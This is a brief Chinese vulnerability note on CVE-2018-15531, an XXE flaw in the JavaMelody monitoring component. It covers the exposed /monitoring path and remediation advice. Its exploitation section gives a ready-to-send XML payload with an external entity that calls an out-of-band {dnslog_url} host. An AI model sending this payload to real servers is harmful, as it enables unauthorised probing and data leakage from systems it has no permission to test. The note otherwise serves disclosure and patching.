 ### 一 漏洞描述
JavaMelody是一个用来对Java应用进行监控的组件。通过该组件，用户可以对内存、CPU、用户session甚至SQL请求等进行监控，并且该组件提供了一个可视化界面给用户使用，默认可以通过/monitoring进行访问，从而泄露敏感信息。

最近，该组件被爆出一个XXE漏洞——CVE-2018-15531，由于该组件的启动特性，攻击者无需特定的权限即可发起攻击。

### 二 漏洞利用
JavaMelody 如不指定特殊路径，默认访问路径为 `https://target.com/monitoring`  

post发送数据到monitoring接口
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "{dnslog_url}">
    %remote;
]>"
```

### 三 漏洞修复
1.对于/monitoring 敏感信息泄露  
设置权限认证

2.对于xxe漏洞  
升级JavaMelody 1.74.0以上即可。

> 参考链接  
> https://cloud.tencent.com/developer/article/2004068
